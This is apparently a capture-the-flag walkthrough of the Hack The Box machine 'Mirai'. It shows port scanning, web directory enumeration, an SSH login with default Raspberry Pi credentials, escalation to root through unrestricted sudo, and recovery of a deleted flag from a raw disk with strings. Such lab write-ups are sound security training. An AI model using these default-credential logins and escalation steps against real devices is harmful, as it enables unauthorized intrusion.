

# Mirai walkthrough (Hack The Box)

- named after [Mirai botnet](https://en.wikipedia.org/wiki/Mirai_(malware))

- initial portscan

```
Nmap scan report for 10.10.10.48
Host is up (0.054s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid:
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- examining port `80` with curl
```
me@kali:/workspace$ curl http://10.10.10.48 -I
HTTP/1.1 404 Not Found
X-Pi-hole: A black hole for Internet advertisements.
Content-type: text/html; charset=UTF-8
Date: Sun, 29 Mar 2020 19:02:26 GMT
Server: lighttpd/1.4.35
```

- no exploits for `lighttpd/1.4.35` found

- gobuster
```
me@kali:/workspace$ gobuster dir -w /infosec/SecLists/Discovery/Web-Content/big.txt -u http://10.10.10.48
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.48
[+] Threads:        10
[+] Wordlist:       /infosec/SecLists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/29 14:54:12 Starting gobuster
===============================================================
/admin (Status: 301)
/versions (Status: 200)
===============================================================
2020/03/29 14:56:10 Finished
===============================================================
```

- found **Pi-hole** webpage



- no exploits available for **Pi-hole**

- it looks like the device is a Raspberry Pi, let's try default credentials - username `pi`, password `raspberry`

```
me@kali:~/Downloads$ ssh pi@10.10.10.48
pi@10.10.10.48's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 29 20:41:44 2020 from 10.10.14.55

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ whoami
pi
```

- user flag is in `/home/pi/Desktop`

- we can run all commands as `sudo`

```
pi@raspberrypi:~/Desktop $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

- run `sudo su` to switch to root user

```
pi@raspberrypi:~/Desktop $ sudo su
root@raspberrypi:/home/pi/Desktop# whoami
root
```

- find the root flag

```
root@raspberrypi:/home/pi/Desktop# cd /root/
root@raspberrypi:~# ls -l
total 4
-rw-r--r-- 1 root root 76 Aug 14  2017 root.txt
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

- find the usb stick

```
root@raspberrypi:~# cd /media/
root@raspberrypi:/media# ls -l
total 1
drwxr-xr-x 3 root root 1024 Aug 14  2017 usbstick
root@raspberrypi:/media# cd usbstick/
root@raspberrypi:/media/usbstick# ls -l
total 13
-rw-r--r-- 1 root root   129 Aug 14  2017 damnit.txt
drwx------ 2 root root 12288 Aug 14  2017 lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

- nothing else on the device
- try `mount` to list devices

```
root@raspberrypi:~# mount
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
...
/dev/sdb on /media/usbstick type ext4 (ro,nosuid,nodev,noexec,relatime,data=ordered)
...
binfmt_misc on /proc/sys/fs/binfmt_misc type binfmt_misc (rw,relatime)
```

- look for the flag in the device using `strings` or `grep` (the output contains the flag)

```
root@raspberrypi:~# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
[***FLAG***]
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
root@raspberrypi:~#
```
